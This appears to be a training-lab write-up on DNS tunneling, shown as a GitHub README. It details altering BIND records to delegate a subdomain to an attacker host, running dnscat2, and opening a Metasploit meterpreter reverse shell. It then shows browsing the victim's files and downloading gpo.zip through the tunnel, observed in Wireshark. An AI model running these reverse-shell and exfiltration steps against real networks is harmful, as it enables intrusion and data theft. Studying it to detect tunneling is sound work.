 # DNS-Tunneling

Network activity is often the best source of indicators when analyzing a suspected incident. It is very hard for attackers to disguise the endpoints involved in either sending commands to a malicious bot installed on a local host or transferring data out of the network. In this lab, I set up a simple DNS tunneling mechanism to illustrate how attackers can try to disguise communications by hiding it within a common protocol.

# Set Up the Attack

When using DNS tunneling, the attacker must be able to act as an authoritative name server so that queries for name records are directed to his or her machine. Modern techniques use domain generation algorithms (DGA) to cycle rapidly through ephemerally-created domains. Our approach will be to compromise the records on another name server (hosted on LAMP) to create a delegation for a subdomain. Our attacking machine (PT1) will be the name server for this subdomain. To simplify things, we'll assume the compromise takes the form of having discovered the administrative credentials for LAMP.



Select the **LAMP VM** and log on using the credentials lamp and Pa$$w0rd.

Run the following commands to open the DNS records for the 515web.net domain:

**cd /etc/bind**

**sudo nano named.conf.options**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5d060a5c-fa65-438e-a98a-cbaa995ce2a5)

Edit and add the following two lines, confirming with Pa$$w0rd when prompted:

**dnssec-validation no;**

**allow-recursion { "any"; };**

This step is necessary because for technical reasons we cannot use the DNS server running on DC1 as a resolver. We have to query the 515web.net server directly and have it resolve our queries for us. Note that this is an unsecure configuration for an authoritative name server.
![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c440c7c9-c5f6-472f-8926-49e80cd5526a)

Run the following command to open the DNS records for the 515web.net domain: **sudo nano db.515web.net**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/68b4925a-2a0a-4fad-ac21-0ad40d7ab658)

Add the following records to the end of the file to delegate the records for a subdomain (pwn.515web.net) to the IP address 192.168.2.192, which is the attack machine (PT1). Be careful to add the period at the end of the domain names:

**$ORIGIN pwn.515web.net.**

**@   IN   NS   ns1.pwn.515web.net.**

**ns1  IN    A   192.168.2.192**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/470df8b8-f6ac-430c-b583-bdcb3105bbfc)

Restart the server: **sudo service bind9 restart**


Lab topology—LAMP hosts DNS records for 515web.net, which have been corrupted to forward queries for a subdomain to PT1. The vLOCAL network is screened by the UTM1 router/firewall VM.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/e5649673-5006-4adc-a8ca-9eb5153749de)


# Set Up a Listener

On the attacking machine, we need to set up a server to listen for connection attempts, arriving as requests for records in the pwn.515web.net domain. We will use the dnscat2 tunneling tool, developed by Ron Bowes (github.com/iagox86/dnscat2/blob/master/README.md).


 Run the following commands:

**service apache2 start**

**cd ../Downloads/dnscat2/server**

**ruby ./dnscat2.rb pwn.515web.net**

(We also need to send the client to the victim machine. We'll use our familiar evilputty.exe malware to achieve this.)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/5b5dc588-3619-449c-ab9a-d675a3a97adc)

Open a second terminal and run msfconsole


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/542cac3d-28ea-4049-8e90-d47800be494a)


At the msf5 prompt, run the following commands to start the listener for the reverse shell:

**use exploit/multi/handler**

**set payload windows/meterpreter/reverse_tcp**

**set lhost 192.168.2.192**

**set lport 3389**

**exploit**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/b3a023c0-d7fa-469c-ae02-8a4ad142c92c)


# Trigger the Attack

To view the progress of the attack, we'll run a Wireshark capture on just the right ports (call it inspired foresight).

Logged into a PC VM using credentials of  **bobby**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4fcbb285-d2bf-43c4-8899-e31481d90523)

Start a Wireshark capture on the Ethernet interface with the following filter:

**host not 10.1.0.1 and (port 3389 or port 53)**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/4f967f86-7f3b-4acd-9b72-981a47fcf188)



![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/0079bb65-658b-41c7-8b68-5f5dc1453c05)


![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/c87e0204-145d-4984-bc96-fb58845c7498)


Switch to the terminal hosting dnscat2 and verify that a new window (1) has been created. You can ignore the Ruby errors. Note that the session is encrypted.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/226c9f13-4bea-4a79-bd27-d6a236062ba2)


Let's imagine that the attacker has switched access methods, leaving the DNS backdoor running.
<br>

Switch to the terminal hosting dnscat2 and run the following commands to navigate the local system:

**window --i=1**

**shell**

**window --i=2**

**dir**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/79160d47-0f34-46f7-a017-0ac3a947ba39)

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/a070985b-c1df-4f12-af75-fbdac9b59b54)


Let's say that the GPO zip file is of interest. We can use the DNS tunnel to download it. Run the following commands to close the local shell, reconnect to the original prompt, and run the download command:

**exit**

**window --i=1**

**download gpo.zip /root/Downloads/gpo.zip**

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/07082657-6cb8-449c-8e00-c488480dce1e)


Switch to PC1. Stop the Wireshark capture and scroll to the start of the output.

Observe the Meterpreter session established over port 3389. This is the common port for Microsoft's Remote Desktop Protocol (RDP), but the data transfer here is using raw TCP packets.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/cbffe2ee-a4f0-4437-a28a-29486b263bc7)

Scroll toward the end of the capture to observe the DNS tunneling traffic. Note that a variety of record types are used.

While this technique can circumvent many firewall configurations, it is distinctively noisy and simple for IDS to detect.

![image](https://github.com/itzyezz/DNS-Tunneling/assets/105263523/f31869fc-a538-4a26-bc09-53b30f01b94a)

